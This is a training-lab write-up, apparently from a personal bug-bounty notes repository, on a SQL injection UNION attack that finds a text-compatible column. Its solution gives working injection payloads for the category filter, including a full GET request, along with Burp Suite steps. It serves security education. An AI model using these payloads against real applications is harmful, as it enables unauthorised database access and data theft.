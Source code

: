 Lab: SQL injection UNION attack, finding a column containing text

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.
ACCESS THE LAB
<pre>
  Solution

  GET /filter?category=Gifts'UNION+SELECT+NULL,'NT43fX',NULL-- HTTP/2
  
    Use Burp Suite to intercept and modify the request that sets the product category filter.

    Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
    '+UNION+SELECT+NULL,NULL,NULL--

    Try replacing each null with the random value provided by the lab, for example:
    '+UNION+SELECT+'NT43fX',NULL,NULL--
    If an error occurs, move on to the next null and try that instead.
</pre>

![lab4](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/8c4c5569-ecd4-4783-9562-6cb74bb631da)
